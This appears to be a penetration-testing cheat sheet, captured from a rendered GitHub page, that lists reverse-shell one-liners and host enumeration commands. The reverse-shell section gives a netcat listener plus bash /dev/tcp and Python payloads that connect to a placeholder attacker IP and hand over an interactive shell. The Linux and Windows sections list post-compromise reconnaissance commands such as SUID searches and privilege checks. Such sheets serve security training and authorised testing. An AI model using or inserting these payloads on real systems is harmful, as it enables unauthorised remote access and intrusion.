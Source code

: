 #### Reverse Shells
```bash
# Listener
nc -nvlp 4444

# Basic bash reverse shell
bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1

# Python reverse shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Platform-Specific Quick Commands

#### Linux Enumeration
```bash
# System info
uname -a && cat /etc/os-release

# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Check sudo permissions
sudo -l

# Network connections
ss -tulpn

# Processes
ps aux --forest
```

#### Windows Enumeration
```cmd
# System info
systeminfo

# User info
whoami /all

# Network connections
netstat -ano

# Services
sc query

# Scheduled tasks
schtasks /query /fo LIST /v
```

---